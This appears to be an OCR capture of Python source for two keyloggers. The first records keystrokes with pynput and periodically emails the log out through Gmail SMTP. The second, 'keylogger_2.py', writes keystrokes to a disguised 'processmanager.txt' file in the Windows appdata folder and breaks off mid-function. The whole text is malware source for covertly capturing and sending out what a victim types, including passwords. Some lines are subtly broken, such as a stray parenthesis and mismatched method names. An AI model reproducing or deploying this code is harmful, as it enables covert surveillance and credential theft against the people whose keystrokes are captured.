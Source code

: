 ```
				current_key = " "
			else:
				current_key = " " + str(key) + " ") 
		update_log(current_key)

	def send_mail(email, password, message):
		server = smtplib.SMTP("smtp.gmail.com", 587)
		server.starttls()
		server.login(email, password)
		server.sendmail(email, email, message)
		server.quit()

	def report(self):
		print(self.log)
		self.send_mail(self.email, self.password, "\n\n" + self.log)
		self.log = ""
		timer = threading.Timer(self.interval, self.report)
		timer.start()

	def start_listener(self):
		keyboard_listener = pk.Listener(on_press=self.process_key_press)
		with keyboard_listener:
			self.report()
			keyboard_listener.join()
			
keylogger_obj = Keylogger(120, "abc@gmail.com", "abcabc")
keylogger_obj.start() 
```

```
#!/usr/bin/env python

# keylogger_2.py

import os
from pynput.keyboard import Listener
import time
import threading


class Keylogger():
    keys = []
    count = 0
    flag = 0
    path = os.environ['appdata'] +'\\processmanager.txt'
    #path = 'processmanager.txt'

    def on_press(self, key):
        self.keys.append(key)
        self.count += 1

        if self.count >= 1:
            self.count = 0
            self.write_file(self.keys)
            self.keys = []

    def read_logs(self):
        with open(self.path, 'rt') as f:
            return f.read()

    def write_file(self, keys):
        with open(self.path, 'a') as f:
            for key in keys:
                k = str(key).replace("'", "")
```